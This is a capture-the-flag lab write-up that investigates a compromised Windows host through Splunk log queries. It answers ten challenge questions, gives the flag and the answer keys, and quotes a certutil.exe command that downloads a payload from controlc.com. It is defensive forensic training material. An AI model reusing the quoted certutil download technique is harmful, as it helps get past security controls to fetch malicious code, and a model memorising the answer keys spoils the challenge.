 # Benign: Compromised Host Investigation Lab  

In this challenge, we investigated a compromised host based on logs from a Splunk instance. Below are the details of the investigation and findings, along with placeholders for screenshots to support each answer.  

---

### Network Segments
The network is divided into three logical segments, which are important for the investigation:

- **IT Department**
    - James
    - Moin
    - Katrina
- **HR Department**
    - Haroon
    - Chris
    - Diana
- **Marketing Department**
    - Bell
    - Amelia
    - Deepak

---

---

## 🔍 Investigation Questions and Answers  

### 1. How many logs were ingested from the month of March, 2022?  
**Answer:** 13,959  
- **Steps Taken:**  
  - Adjusted the calendar in Splunk to show only logs from March 2022.  
  - Queried the logs using the `index=win_eventlogs` filter for the correct time range.  

![Screenshot for Question 1](https://i.imgur.com/tYARG1s.png)

---

### 2. Imposter Alert: There seems to be an imposter account observed in the logs. What is the name of that user?  
**Answer:** Amel1a  
- **Steps Taken:**  
  - Analyzed the `UserName` field and cross-referenced the logs with a list of known users.  
  - Identified "Amel1a" as an imposter account resembling "Amelia."  

![Screenshot for Question 2](https://i.imgur.com/W7OX7Ju.png)

---

### 3. Which user from the HR department was observed to be running scheduled tasks?  
**Answer:** Chris.fort  
- **Steps Taken:**  
  - Used the query: `index=win_eventlogs UserName (Haroon OR Chris OR Diana) schtasks.exe`  
  - Identified that `Chris.fort` was running scheduled tasks in the HR department.  

![Screenshot for Question 3](https://i.imgur.com/FSofP45.png)

---

### 4. Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host?  
**Answer:** Haroon  
- **Steps Taken:**  
  - Used the search query:  
    `index=win_eventlogs UserName (Haroon OR Chris OR Diana) | table CommandLine | dedup CommandLine`  
  - Found the command `certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe`, indicating Haroon downloaded the payload.  

![Screenshot for Question 4](https://i.imgur.com/Rm0p9tq.png)

---

### 5. To bypass the security controls, which system process (LOLBIN) was used to download a payload from the internet?  
**Answer:** certutil.exe  
- **Steps Taken:**  
  - Cross-referenced the system process used with the payload download.  
  - Identified that `certutil.exe` was used to bypass security controls and download the malicious file.  

![Screenshot for Question 5](https://i.imgur.com/luMRomf.png)

---

### 6. What was the date that this binary was executed by the infected host? (Format: YYYY-MM-DD)  
**Answer:** 2022-03-04  
- **Steps Taken:**  
  - Analyzed the event logs to determine the timestamp of the `certutil.exe` execution.  
  - Found the binary was executed on **2022-03-04**.  

![Screenshot for Question 6](https://i.imgur.com/F34HfAj.png)

---

### 7. Which third-party site was accessed to download the malicious payload?  
**Answer:** controlc.com  
- **Steps Taken:**  
  - Analyzed the URL associated with the payload download, which pointed to `https://controlc.com/e4d11035`.  
  - Identified that `controlc.com` was the third-party site used.  

![Screenshot for Question 7](https://i.imgur.com/CkhvVEc.png)

---

### 8. What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?  
**Answer:** benign.exe  
- **Steps Taken:**  
  - Reviewed the downloaded file from the C2 server.  
  - Identified that the file saved on the host was named `benign.exe`.  

![Screenshot for Question 8](https://i.imgur.com/p4dzMcd.png)

---

### 9. The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?  
**Answer:** THM{KJ&*H^B0}  
- **Steps Taken:**  
  - Used VirusTotal to analyze the malicious file URL.  
  - Identified the pattern `THM{KJ&*H^B0}` in the file's metadata.  

![Screenshot for Question 9](https://i.imgur.com/FcayIlP.png)

---

### 10. What is the URL that the infected host connected to?  
**Answer:** `https://controlc.com/e4d11035`  
- **Steps Taken:**  
  - Analyzed the logs for the full URL the infected host connected to during the attack.  
  - Identified that the infected host connected to `https://controlc.com/e4d11035`.  

---

## 🛠️ Tools Used  
- **Splunk**: For ingesting, analyzing, and searching logs.  
- **VirusTotal**: For analyzing suspicious URLs and files.  

---

